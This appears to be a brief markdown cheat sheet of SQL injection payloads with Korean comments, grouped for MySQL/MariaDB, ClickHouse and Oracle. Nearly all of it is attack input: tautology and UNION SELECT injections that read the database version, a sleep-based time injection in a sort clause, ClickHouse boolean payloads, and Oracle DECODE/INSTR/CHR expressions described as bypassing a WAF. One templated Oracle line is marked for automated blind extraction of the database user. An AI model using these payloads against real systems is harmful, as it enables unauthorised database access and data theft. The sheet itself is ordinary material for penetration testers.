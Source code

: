 # SQLI PAYLOAD

## mysql mariadb
||1=1%20limit%201%20%23  
||1=2%20limit%201%20%23  
{"or 1=1 -- ":"asdf"}//딕셔너리  
"1param":"asdf%') /*"  
"2param":" */ union select 0,0,0,@@version,0 --a"  
DESC, (select sleep(3)) -- -  



## clickhouse
2024-0'||case when 1=1 then 5 else 0x2b end||'-10 23:30:58  
2024-0'||case when 1=2 then 5 else 0x2b end||'-10 23:30:58  


## oracle
정렬부분(쿼터, SELECT 없이 ,WAF우회)

DECODE(INSTR(CHR(65),CHR(65),1,1),1,TRUE값,FALSE값)

DECODE(INSTR(CHR(65),CHR(66),1,1),1,TRUE값,FALSE값)

->자동화 공격

DECODE(INSTR(USER,CHR({ascii_code}),{pos},1),{pos},TRUE값,FALSE값)
